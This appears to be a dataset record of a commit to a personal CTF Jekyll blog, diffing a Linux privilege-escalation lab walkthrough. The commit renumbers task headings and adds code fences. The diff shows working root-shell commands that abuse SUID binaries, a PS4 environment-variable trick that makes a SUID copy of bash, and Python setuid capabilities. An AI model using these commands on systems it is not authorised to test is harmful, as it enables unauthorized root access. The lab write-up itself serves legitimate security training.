

Before and after one commit to andrewn2000/myCTF, a Jekyll site: the page built from _posts/2024-02-04-Linux-PrivEsc.markdown, in a window 1280 px wide and 1400 px high, scrolled down 3059 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fix PrivEsc

````diff
--- a/_posts/2024-02-04-Linux-PrivEsc.markdown
+++ b/_posts/2024-02-04-Linux-PrivEsc.markdown
@@ -143,7 +143,7 @@ echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tm
 4. In command prompt type: /usr/local/bin/suid-env
 5. In command prompt type: id
 
-## SUID (Environment Variables #2)
+## Task 14 SUID (Environment Variables #2)
 
 ### Detection
 
@@ -172,7 +172,7 @@ Linux VM
 ```
 env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
 ```
-## Task 14 Capabilities
+## Task 15 Capabilities
 
 ### Detection
 
@@ -186,4 +186,6 @@ Exploitation
 ### Linux VM
 
 1. In command prompt type:
+```
 /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
+```
````
